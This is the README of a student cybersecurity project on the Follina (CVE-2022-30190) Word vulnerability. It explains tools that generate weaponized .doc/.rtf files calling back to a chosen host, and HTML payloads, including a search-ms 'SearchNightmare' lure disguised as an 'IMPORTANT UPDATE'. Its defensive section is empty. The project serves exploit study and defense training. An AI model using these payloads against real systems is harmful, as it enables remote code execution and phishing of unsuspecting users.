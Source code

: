 # five-nights-at-follina-s
A Fullstack Academy Cybersecurity project examining the full cycle of the Follina (CVE-2022-30190) vulnerability, from exploit to detection and defense.

Team:
[Brian Aldrich](https://github.com/SB-Aldrich)
[YoungWa Kim](https://github.com/T4369)
[Jay O'Neill](https://github.com/rhomv)
[Binyang Jeffrey Xu](https://github.com/jeffymcjeffface)

This set of tools assumes that you have a web host or can spin up a simple webserver using Python to host the generated or example payload files. Please use these tools only on VMs or other disposable environments!

# Offensive Tools
To create the Microsoft Word document with the Follina exploit, run docgen_v3.py, using the following options
--extention/-e : change the document output from .doc (default) to rtf for a zero click attack. -e rtf
--ip_address/-ip : change the IP address the document will try to reach out to (detault is 10.0.2.15).
--port/-p : changes the port it will try to reach out to (default is 8000)

To create a payload html file, use generate_payload.py with either the `poc` subcommand to generate a proof of concept payload that opens the Windows Calculator or the `custom` subcommand to generate a payload with your own script.
Examples:
`python generate_payload.py poc -o test.html` will generate the calculator payload in test.html
`python generate_payload.py custom -o test.html -p "search-ms:query=procmon.exe&crumb=location:%5C%5Clive.sysinternals.com%5Ctools&displayname=IMPORTANT%20UPDATE"` will generate test.html as a custom payload with the SearchNightmare exploit

Example payloads can be found in the "Example Payloads" folder.

# Defensive Tools

